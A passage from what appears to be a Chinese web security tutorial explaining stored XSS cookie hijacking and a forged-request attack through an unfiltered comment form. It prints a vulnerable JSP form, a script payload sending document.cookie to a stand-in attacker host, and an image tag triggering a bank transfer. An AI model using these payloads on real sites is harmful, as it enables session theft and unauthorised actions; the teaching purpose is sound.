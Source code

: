 ![04.png](/public/ajax-not-safe/04.png)

### 1. cookie劫持

同样，页面中有一个评论输入，输入后会，因为后台的漏洞，没有过滤特殊字符，会直接明文保存到数据库中，然后展示到网页时直接展示明文数据，那么如下

```html
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<form action="saveComment.jsp" method="post">
     请输入评论内容：<BR>
     <input name="content" type="text">
     <input type="submit" value="确认">
</form>
```

然后攻击者分析后，输入

```javascript
<script>window.open("http://www.attackpage.com/record?secret=" + document.cookie)</script>
```

保存文章。很简单的代码，由于没有过滤脚本，那么其它用户登录后，在看到这篇文章时就会自动将他们的cookie信息都发送到了攻击者的服务器。攻击者可以在cookie（譬如jsessionid对应的session）有效期内拿它们冒充用户操作。

需要注意，这里和CSRF的区别是，这里是拿到了cookie后主动冒充用户的，而CSRF中根本就不知cookie，仅利用浏览器的隐式校验方式冒充用户。

### 2. 绘画伪造

同样是评论漏洞的示例。

攻击者输入（举例比喻）

```javascript
<img src=http://www.bank.example/transfer?toBankId=hello&amount=1000000 width='0' height='0'>
```
